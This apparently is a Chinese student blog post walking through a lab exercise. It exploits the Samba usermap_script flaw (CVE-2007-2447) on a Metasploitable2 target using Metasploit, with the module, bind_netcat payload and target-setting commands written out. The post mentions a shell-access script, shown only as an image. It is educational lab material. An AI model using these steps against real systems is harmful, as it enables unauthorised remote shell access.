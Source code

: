 >漏洞名称：Samba用户名映射脚本命令执行
>漏洞编号：CVE-2007-2447(居然是07年的，这么近...啊也不近了，都2019了...)
>存在版本：Samba 3.0.0 - Samba 3.0.25rc3
>简单描述：MS-RPC功能允许远程攻击者在启用“用户名映射脚本”smb.conf选项时，通过涉及SamrChangePassword函数的shell元字符执行任意命令，并允许远程认证用户通过shell元字符执行命令
>[![k1uVpD.md.png](https://blog.dvkunion.cn/img/k1uVpD.md.png)](https://blog.dvkunion.cn/img/k1uVpD.md.png)

2> <font color = "Brown">更新Metasploit，找出攻击模块具体位置，查看一下针对不同系统的攻击模块数量。</font>
>我所使用的Metaspoit版本为：metasploit v5.0.1-dev
>总模块数量：aux：1046；exp:1851；post:321；payloads:541:encoders：44；nops:10
>渗透攻击模块的位置位于：/usr/share/metasploit-framework/modules/
>进入到exploits，可以发现几个明显的由操作系统命名的文件夹，Shell统计一下：

`# ls -lR | grep "^d" | wc -l`

>关于windows的攻击模块一共有47个。


3> <font color = "Brown">分别在Win和Linux下安装Metaspoit，运行并获取Linux靶机usermap_script漏洞渗透攻击，尝试植入VNC图形化远程控制工具的攻击荷载，成功获得Linux靶机上的远程控制桌面。</font>
>我的win下一直都没有装Metasploit...因为...懒癌...
>就使用kali下的做一下简单的尝试吧。kali-ip:10.10.10.128
>靶机为Metasploitable2-ip:10.10.10.254
>虚拟机内的连接为NAT模式。
>首先进入msfconsole，使用samba_script模块

>`msf5 > use multi/samba/usermap_script`

>使用show payloads查看攻击载荷，选定bind_netcat

>`msf5 exploit(multi/samba/usermap_script) > set payload cmd/unix/bind_netcat`

>使用show options 查看需要设置的参数
>将IP设置为靶机

>`msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.254`

>exploit!

>可以看到msf反馈已经成功，等待输出bash命令
>[![k1KjsJ.md.png](https://blog.dvkunion.cn/img/k1KjsJ.md.png)](https://blog.dvkunion.cn/img/k1KjsJ)

4> <font color = "Brown">使用msfcli命令行接口写一个SHELL脚本，实现用户只需要输入目标Linux靶机IP就可以使用usermap_script漏洞渗透攻击模块获取远程靶机的shell访问。</font>
>上面说了msfcli已经被弃用，尝试用上文博客的方法写一个脚本
>shell的写法还不是很熟练...代码只是简单粗暴的实现了所需功能...运行下过如下
>[![k1M8yQ.md.png](https://blog.dvkunion.cn/img/k1M8yQ.md.png)](https://blog.dvkunion.cn/img/k1M8yQ)
>贴上代码
>[![k1MGLj.md.png](https://blog.dvkunion.cn/img/k1MGLj.md.png)](https://blog.dvkunion.cn/img/k1MGLj.md.png)


## <b>第二章</b>

